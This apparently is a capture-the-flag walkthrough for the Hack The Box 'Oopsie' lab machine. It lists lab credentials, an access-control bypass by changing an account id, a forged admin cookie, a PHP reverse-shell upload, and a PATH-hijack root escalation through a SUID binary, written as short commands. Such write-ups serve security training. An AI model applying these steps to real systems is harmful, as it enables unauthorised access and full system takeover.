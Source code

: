 # Hack The Box : Starting Point : Oopsie
```
Export IP = 10.10.10.28
```

## Archetype Credential
```
user : admin or administrator
password : MEGACORP_4dm1n!!
```

## SCAN
```
22 tcp 
80 http
```

## Enumerate
```
1. BurpSuite Site MAP Detect

2. http://export_ip/cdn-cgi/login
```

## Gaining Access
```
1. http://export_ip/admin.php?content=accounts&id=1

2. FILE Reference : SuperAdminFind.py

3. Super Admin Cookie Modifyed

4. php-reverse-shell.php upload

5. http://export_ip/uploads/php-reverse-shell.php
```

## USER CREDENTIAL
```
FILE PATH : /var/www/html/cdn-cgi/login/db.php

USER : robert
PASSWORD : M3g4C0rpUs3r!

```

## Privilige Escalate
```
1. check it "id" command

2. find / -type -f -group bugtracker 2>/dev/null

3. /usr/bin/bugtracker

-- cat /root/report.txt
--- export PATH=/tmp:$PATH
--- cd /tmp/
--- echo "/bin/sh" > cat
--- chmod +x cat
```